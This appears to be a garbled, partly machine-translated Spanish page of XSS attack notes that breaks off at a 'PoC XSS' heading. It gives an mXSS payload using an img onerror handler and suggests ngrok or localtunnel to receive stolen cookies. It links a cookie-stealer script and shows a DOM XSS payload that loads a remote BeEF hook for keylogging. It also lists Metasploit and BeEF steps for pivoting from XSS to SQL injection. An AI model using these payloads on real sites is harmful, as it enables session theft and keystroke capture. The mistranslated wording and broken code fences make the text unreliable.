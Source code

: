 ### mXSS - Mutation-Based

* Esta es una clase de vectores XSS, que pueden ocurrir en **inHTML** y propiedades FOM relacionadas.
* Con este tipo de mutaciones, cuerda inofenable que pasa claramente todos los filtros XSS se transforman en vectores de ataque XSS por el propio motor de diseño del navegador.

Es una técnica antigua, funciona en IE8 o más

To test: http://html5sec.org/innerhtml

moreover: http://www.businessinfo.co.uk/labs/mxss/

```js
<listing>&amp;lt;img src=1 onerror=alert(1)&gt;</listing>
```

## Create an external IP to get requests

Puede utilizar NGROK o localtunnel para abrir una IP externa para recibir cookies Por ejemplo.

```bash
https://github.com/inconshreveable/ngrok
https://github.com/localtunnel/localtunnel
```

Este script puede ayudar a robar cookies:

```bash
https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py
```

## Notes from Video

### 1 - Keylogging

Metasploit:

````bash
service postgresql start
service metasploit start
```bash

DOM XSS:
```js
<img/src=x style="display:none" onerror="s=document.createElement('script'); s.setAttribute('src','<beef hook>');document.head.appendChild(s)">
````

### 2 - From an XSS to a SQL Injection

```bash
BeEF > Rider > Forge Request
```

PoC XSS:

